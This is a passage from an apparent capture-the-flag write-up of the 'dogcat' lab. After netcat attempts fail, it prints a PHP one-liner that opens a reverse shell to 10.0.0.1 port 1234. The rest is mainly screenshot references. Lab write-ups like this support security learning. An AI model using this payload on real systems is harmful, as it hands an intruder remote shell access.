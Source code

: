 <figure><img src="../../.gitbook/assets/dogcat23.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/dogcat24.png" alt=""><figcaption></figcaption></figure>

This one didn’t work. maybe the target system doesn’t have the latest netcat version. Let’s try with another one:

<figure><img src="../../.gitbook/assets/dogcat25.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/dogcat26.png" alt=""><figcaption></figcaption></figure>

Same results. This one was for other versions of netcat. Let’s try with this one that uses php to launch a reverse shell:

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

<figure><img src="../../.gitbook/assets/dogcat27.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/dogcat28.png" alt=""><figcaption></figcaption></figure>
